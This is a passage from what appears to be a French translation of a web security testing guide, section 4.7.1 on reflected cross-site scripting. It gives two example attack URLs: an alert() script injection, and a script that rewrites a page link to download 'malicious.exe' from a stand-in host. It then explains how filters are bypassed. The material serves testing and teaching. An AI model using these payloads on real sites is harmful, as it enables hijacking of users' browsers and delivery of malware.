 ![Exemple XSS 1](images/XSS_exemple1.png)\
*Figure 4.7.1-1 : Exemple XSS 1*

Le testeur doit soupçonner que chaque point d'entrée de données peut entraîner une attaque XSS. Pour l'analyser, le testeur jouera avec la variable utilisateur et tentera de déclencher la vulnérabilité.

Essayons de cliquer sur le lien suivant et voyons ce qui se passe :

```text
http://exemple.com/index.php?user=<script>alert(123)</script>
```

Si aucune désinfection n'est appliquée, cela entraînera la fenêtre contextuelle suivante :

![Alerte](images/Alerte.png)\
*Figure 4.7.1-2 : XSS exemple 1*

Cela indique qu'il existe une vulnérabilité XSS et il apparaît que le testeur peut exécuter le code de son choix dans le navigateur de n'importe qui s'il clique sur le lien du testeur.

#### exemple 2

Essayons un autre morceau de code (lien):

```text
http://exemple.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexemple.com/malicious.exe";}</script>
```

Cela produit le comportement suivant :

![XSS exemple 2](images/XSS_exemple2.png)\
*Figure 4.7.1-3 : XSS exemple 2*

Cela amènera l'utilisateur, en cliquant sur le lien fourni par le testeur, à télécharger le fichier `malicious.exe` à partir d'un site qu'il contrôle.

### Contourner les filtres XSS

Les attaques de script intersite réfléchies sont empêchées car l'application Web nettoie les entrées, un pare-feu d'application Web bloque les entrées malveillantes ou par des mécanismes intégrés dans les navigateurs Web modernes. Le testeur doit tester les vulnérabilités en supposant que les navigateurs Web n'empêcheront pas l'attaque. Les navigateurs peuvent être obsolètes ou avoir des fonctions de sécurité intégrées désactivées. De même, il n'est pas garanti que les pare-feu d'applications Web reconnaissent les nouvelles attaques inconnues. Un attaquant pourrait créer une chaîne d'attaque qui n'est pas reconnue par le pare-feu de l'application Web.

Ainsi, la majorité de la prévention XSS doit dépendre de la désinfection par l'application Web des entrées utilisateur non fiables. Il existe plusieurs mécanismes à la disposition des développeurs pour le nettoyage, tels que le renvoi d'une erreur, la suppression, l'encodage ou le remplacement d'une entrée non valide. Le moyen par lequel l'application détecte et corrige les entrées non valides est une autre faiblesse principale dans la prévention du XSS. Une liste de refus peut ne pas inclure toutes les chaînes d'attaque possibles, une liste d'autorisation peut être trop permissive, le nettoyage peut échouer ou un type d'entrée peut être incorrectement approuvé et rester non nettoyé. Tous ces éléments permettent aux attaquants de contourner les filtres XSS.
